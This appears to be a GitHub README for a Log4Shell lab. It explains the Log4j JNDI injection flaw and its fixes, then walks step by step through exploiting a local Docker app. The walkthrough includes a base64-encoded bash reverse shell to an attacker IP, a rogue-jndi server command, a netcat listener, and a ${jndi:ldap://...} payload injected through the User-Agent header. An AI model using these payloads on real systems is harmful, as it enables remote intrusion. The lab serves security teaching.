 
# Log4Shell lab

## Vulnerability explanation

#TODO basic info

This vulnerability allows for remote code execution (RCE) via the manipulation of log message formats. Specifically, the exploit involves the use of a malicious LDAP server to inject arbitrary code into a vulnerable Java application.

When a user input or a specific HTTP header (like `User-Agent`) that contains a JNDI lookup string is logged by the vulnerable application, the Log4j library processes this string and performs a lookup to the specified LDAP server. In this exploit, the attacker's LDAP server responds with a payload that leads to the execution of arbitrary code on the application server.

To get RCE from the Log4j vulnerability, we rely on code injection possibilities via a malicious JNDI server. This depends on the Java version or other dependencies running on the victim. This means that the RCE may not work in certain contexts, while the victim still uses a vulnerable version of Log4j. For more information, see [here](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

## Vulnerability fix

The vulnerability is addressed in Log4j version 2.17.1 and later. As reported by [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44832), Apache Log4j (`log4j-core`) versions up to 2.14.1 are potentially vulnerable. Avoid using any of these versions explicitly, or as a _transitive dependency from other packages_ such as Spring Boot.

```groovy
// Vulnerable to CVE-2021-44832!
// Spring Boot 2.5.1 installs Log4j 2.14.1
plugins {  
    id 'java'  
    id 'org.springframework.boot' version '2.5.1'  
    id 'io.spring.dependency-management' version '1.0.11.RELEASE'  
}
```

For applications that cannot be immediately updated, modify the Log4j configuration to disable JNDI lookups. This can be achieved by setting the system property `log4j2.formatMsgNoLookups` to `true` or by removing the JNDI lookup class from the classpath.

The vulnerability is independent of Java versions, so any Java runtime that uses a vulnerable Log4j can be exploited.

## Steps to exploit the vulnerable app

```mermaid
sequenceDiagram
    participant A as Attacker<br/>(Malicious LDAP)
    participant V as Victim<br/>(Vulnerable Java App)
    participant N as Attacker<br/>(Netcat Listener)

    A->>V: 1. Send JNDI lookup string
    V->>A: 2. Victim sends request
    A->>V: 3. LDAP server sends<br/>    malicious code
    V->>N: 4. Victim executes code<br/>    and connects to Netcat
    N->>V: 5. Attacker gets shell access
```
### Vulnerable app setup

Package the vulnerable application with Gradle and run it in a Docker container.

```bash
tom@MacBook:~/workspace/security/log4shell-lab# docker-compose up
```

We can verify that the application is vulnerable to CVE-2021-44832 by including the lookup string `${java:os}` in the login page at `http://localhost:8080`.

![](img/login.png)

The logs show that the lookup string is resolved.

![](img/verify.png)

### Exploit steps

Prepare a malicious LDAP server for JNDI injection attacks, for example [rogue-jndi](https://github.com/veracode-research/rogue-jndi). The Java version used to build the project does not need to correspond to the version running the vulnerable application.

The malicious LDAP server is configured to receive a specific command sequence. This command is then embedded into the code that is dynamically compiled and executed by the victim's system, effectively allowing the attacker's code to run on the target machine.

```bash
bash -c {echo,$base64EncodedCommand}|{base64,-d}|{bash,-i}
```

The variable `base64EncodedCommand` will contain a bash TCP reverse shell connecting to the host IP 192.168.5.2 at port 443.

```bash
tom@MacBook:~/workspace/security/rogue-jndi# echo 'bash -c bash -i >& /dev/tcp/192.168.5.2/443 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==
```

Start the malicious LDAP server with the embedded command.

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNS4yLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "192.168.5.2" --httpPort 8888
```

Start a Netcat listener on the attacker.

```bash
nc -lnvp 443
```

Trigger the exploit by using a JNDI lookup string that targets our malicious LDAP server.

```bash
${jndi:ldap://192.168.5.2:1389/o=tomcat}
```

The vulnerable application has two vulnerable parameters. The exploit can be triggered via the username field or via the `User-Agent` header.

```http
POST /login HTTP/1.1
Host: localhost:8080
User-Agent: ${jndi:ldap://192.168.5.2:1389/o=tomcat}
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/

username=log4shell
```

We get a shell connection into the Docker container.

![](img/revshell.png)

## Ethical consideration and responsible use

This tutorial, including all code and documentation, is provided for educational and research purposes only. It aims to enhance understanding of cybersecurity vulnerabilities, defensive strategies, and the importance of maintaining secure systems. The demonstration of the Log4Shell vulnerability is intended to inform developers, security professionals, and educational institutions about the risks and mitigation techniques related to this and similar vulnerabilities.

---

Resources:
- https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot
- [Hack The Box | Unified](https://help.hackthebox.com/en/articles/6007919-introduction-to-starting-point)
